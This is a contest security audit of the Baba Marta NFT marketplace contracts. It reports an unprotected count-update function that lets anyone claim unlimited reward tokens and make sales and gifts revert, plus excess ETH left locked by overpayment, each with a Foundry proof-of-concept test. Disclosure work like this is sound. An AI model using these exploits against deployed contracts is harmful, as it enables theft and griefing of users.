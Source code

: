![](../logo.png)
<img src="../img/baba-marta.png" alt="Baba Marta" height="320" />

# Security Report for the Baba Marta CodeHawks FirstFlight Contest \*_shadow audit_

## High Issues

### [H-1] Anyone can get unlimited amount of free `healthToken` without needing to buy a listed `martenitsaToken`

**Description:**

The criteria for getting one `healthToken` is that the `address` must have 3 different `martenitsaToken`. But, a prankster can bypass this by;

- Increasing the number of `martenitsaToken` they own by repeatedly calling the `MartenitsaToken::updateCountMartenitsaTokensOwner()` with the `add` operation
- And then claiming `healthToken` with the `MartenitsaMarketplace::collectReward()`
- Doing this repeatedly

**Impact:**

- The prankster gets unlimited `healthToken` for free
- `MartenistaToken::producers` will not make sales from listing and selling `martenitsaToken` as people will no longer no see the need to buy

**PoC:**

Add this test to any of the test contracts:

```solidity
    function test_get_multiple_health_tokens() public {
        address larry = makeAddr("mr get free health tokens");

        // larry updates his martenitsaToken count
        vm.startPrank(larry);
        martenitsaToken.updateCountMartenitsaTokensOwner(larry, "add");
        martenitsaToken.updateCountMartenitsaTokensOwner(larry, "add");
        martenitsaToken.updateCountMartenitsaTokensOwner(larry, "add");
        vm.stopPrank();

        assert(martenitsaToken.getCountMartenitsaTokensOwner(larry) == 3);

        vm.prank(larry);
        marketplace.collectReward();

        assert(healthToken.balanceOf(larry) == 1e18);

        // repeat the process
        vm.startPrank(larry);
        martenitsaToken.updateCountMartenitsaTokensOwner(larry, "add");
        martenitsaToken.updateCountMartenitsaTokensOwner(larry, "add");
        martenitsaToken.updateCountMartenitsaTokensOwner(larry, "add");
        vm.stopPrank();

        vm.prank(larry);
        marketplace.collectReward();

        assert(healthToken.balanceOf(larry) == 2e18);
    }
```

**Recommended Mitigations:**

### [H-2] Producers can get sales of their listed `martenitsaToken` reverted by pranksters

**Description:** 

Per the `README`, buyers can buy `martenitsaToken` listed by `producers`. But, if a prankster calls the `MartenitsaToken::updateCountMartenitsaTokensOwner()` function with the `address` of the `producer`, as well as the `sub` operation, sales will revert.

*P.S.* If knowledge of how many `martenitsaToken` a `producer` has created is known, a prankster can call `MartenitsaToken::updateCountMartenitsaTokensOwner()` function with `sub` operation as many times as `martenitsaToken` a `producer` has created to ensure that all sales from that creator revert.

**PoC:**

Add the following test to any of the test files:

```solidity
    function test_can_revert_producer_sales() public createMartenitsa {
        address larry = makeAddr("mr trickster");

        // larry reduces chasy martenitsaToken count
        vm.prank(larry);
        martenitsaToken.updateCountMartenitsaTokensOwner(chasy, "sub");

        assert(martenitsaToken.getCountMartenitsaTokensOwner(chasy) == 0);
        assert(martenitsaToken.ownerOf(0) == chasy);

        vm.startPrank(chasy);
        martenitsaToken.approve(address(marketplace), 0);
        marketplace.listMartenitsaForSale(0, 1 wei);
        vm.stopPrank();

        address buyer = makeAddr("buyer");
        vm.deal(buyer, 1 wei);

        // buyer attempts to buy chasy's listed martenitsaToken, but the sale is reverted
        vm.prank(buyer);
        vm.expectRevert();
        marketplace.buyMartenitsa{value: 1 wei}(0);
    }
```

**Recommended Mitigation:**


### [H-3] Legit buyers can have their attempts to gift presents reverted by pranksters

**Description:**

Users can gift their `martenitsaToken` to other users by calling `Marketplace::makePresent()`. But if a prankster calls the `MartenitsaToken::updateCountMartenitsaTokensOwner()` function with the `address` of the gifter, as well as the `sub` operation, gifting will revert.

**Impact:**

Add the following test to any of the following test files:

```solidity
    function test_can_revert_make_present() public listMartenitsa {
        address larry = makeAddr("prankster");
        address hana = makeAddr("bob's gf");

        vm.startPrank(chasy);
        martenitsaToken.approve(address(marketplace), 0);
        marketplace.listMartenitsaForSale(0, 1 wei);
        vm.stopPrank();

        // bob buys martenitsa token
        vm.prank(bob);
        marketplace.buyMartenitsa{value: 1 wei}(0);
        assert(martenitsaToken.ownerOf(0) == bob);

        // larry reduces bob martenitsa balance
        vm.prank(larry);
        martenitsaToken.updateCountMartenitsaTokensOwner(bob, "sub");
        assert(martenitsaToken.getCountMartenitsaTokensOwner(bob) == 0);

        // bob attempts to make present for hana, which reverts
        vm.startPrank(bob);
        martenitsaToken.approve(address(marketplace), 0);
        vm.expectRevert();
        marketplace.makePresent(hana, 0);
    }
```

**Recommended Mitigation:**

### [H-4] `MartenitsaMarketplace` contract is not built to handle incidents where buyers overpay for an NFT

**Description:**

Per the `README`, a buyer has to pay the listed price of an NFT before they can acquire it. But, if the buyer overpays for an NFT, there is no logic to refund them back the excess `ETH`.

```solidity
    function buyMartenitsa(uint256 tokenId) external payable {
        ...
        ...
--->>   require(msg.value >= listing.price, "Insufficient funds");
        ...
        ...
    }
```

**Impact:**

Since there is no logic to handle refund of excess `ETH`, as well as no withdraw function in `MartinitsaMarketplace` contract, any excess `ETH` is locked in it forever.

**PoC:**

Add the following test to any of the test files:

```solidity
    function test_here_we_go() public createMartenitsa {
        vm.startPrank(chasy);
        martenitsaToken.approve(address(marketplace), 0);
        marketplace.listMartenitsaForSale(0, 1 wei);
        vm.stopPrank();

        address bob = makeAddr("un-attentive buyer");
        vm.deal(bob, 5 wei);
        vm.prank(bob);
        marketplace.buyMartenitsa{value: 5 wei}(0);
        assert(martenitsaToken.ownerOf(0) == bob);
        assert(chasy.balance == 1 wei);
        assert(address(marketplace).balance == 4 wei);
    }
```

**Recommended Mitigation:**

Refactor the `MartenitsaMarketplace::buyMartenitsa()` function to `require` that only the listed price should be paid for any NFT.

```diff
    function buyMartenitsa(uint256 tokenId) external payable {
        ...
        ...
-       require(msg.value >= listing.price, "Insufficient funds");
+       require(msg.value == listing.price, "Pay the exact amount");
        ...
        ...
    }
```


